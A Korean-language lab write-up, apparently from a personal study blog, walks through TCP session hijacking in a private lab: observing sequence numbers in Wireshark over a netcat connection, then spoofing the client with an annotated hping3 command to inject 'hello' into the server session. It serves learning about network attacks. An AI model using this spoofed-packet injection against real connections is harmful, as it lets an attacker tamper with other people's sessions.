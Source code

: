 #  TCP Session Hijacking

구성도

![2022-09-30-11구성도](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-11구성도.jpg)

<br>

xp -> netcat 설치

![2022-09-30-01c드리아브](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-01c드리아브.jpg)

<br>

centOS -> nc패키지 설치 -> 실

![2022-09-30-02설치](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-02설치.jpg)

![2022-09-30-03실행](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-03실행.jpg)

<br>

xp -> netcat 실행 후 확인

![2022-09-30-04넷캣실행](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-04넷캣실행.jpg)

![2022-09-30-05리눅스](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-05리눅스.jpg)

xp에서 netcat을 실행 후 centOS와 연결하여 실행해 봤습니다.

<br>

WireShark

![2022-09-30-06핸드](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-06핸드.jpg)

3wayhand-shake 하는 모습도 WireShark에서 보입니다.

<br>

WireShark -> edit -> preferences

![2022-09-30-07체크해제](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-07체크해제.jpg)

저 부분을 체크해제 하면 실제 sequence number가 보입니다.

![2022-09-30-08와이어샤크](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-08와이어샤크.jpg)

<br>

netcat 다시 시작

![2022-09-30-09연결끊고 다시](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-09연결끊고 다시.jpg)

다시 시작하고 한글자 씩 늘려서 보내 보겠습니다.

<br>

WireShark

![2022-09-30-10와이어샤크](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-10와이어샤크.jpg)

length 만큼 sequence number가 늘어나는 모습이 보입니다.

<br>

WireShark 정보

![2022-09-30-12데이터](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-12데이터.jpg)

PSH , ACK 부분을 보시면 글자수 + enter 까지 인식하여 나오는 모습도 보입니다. 위 사진을 보시면 len= 부분을 보시면 length 부분으로도 확인 가능 합니다.

<br>

##### Hijacking

이제 Hijacking을 해 보겠습니다. 위에서 알아봤던 sequence number를 이용해서 하는 방법입니다.



xp -> netcat 실행

![2022-09-30-13재시작](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-13재시작.jpg)

![2022-09-30-15한번더](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-15한번더.jpg)

비교를 위해 2개의 신호를 보내겠습니다.

<br>

마지막 sequence number 확인

![2022-09-30-18마지막시퀀스넘버](C:\Users\home\Desktop\github\깃허브 이미지\2022-09-30- TCP Session Hijacking\2022-09-30-18마지막시퀀스넘버.jpg)

<br>

kali -> 파일생성

![2022-09-30-19파일생성](../images/2022-09-30-TCPSessionHijacking/2022-09-30-19파일생성.jpg)

<br>

kali -> 

![2022-09-30-20공격](../images/2022-09-30-TCPSessionHijacking/2022-09-30-20공격.jpg)

```
hping3
-a 172.16.0.100 공격대상 클라이언트(XP) :  syn,ack 를 변조할 대상
-s 1065(출발지 포트)
-p 9000(목적지 포트)
-M 1890668412(SYN)
-L 1099229640(ACK)
-E /root/data   (보낼글자가 있는 파일명 echo hello > /root/data)
-d 6(hello+LF)
-PA (PUSH,ACK)
-c 1
172.16.0.120(서버주소:보낼대상) 

```

<br>

확인

![2022-09-30-21확인](../images/2022-09-30-TCPSessionHijacking/2022-09-30-21확인.jpg)

![2022-09-30-23확인](../images/2022-09-30-TCPSessionHijacking/2022-09-30-23확인.jpg)

xp에서 아무것도 하지 않았지만 centOS에 hello가 찍혀있고 seq, ack가 앞서 봣던것과 똑같은 모습이 보입니다.

<br>

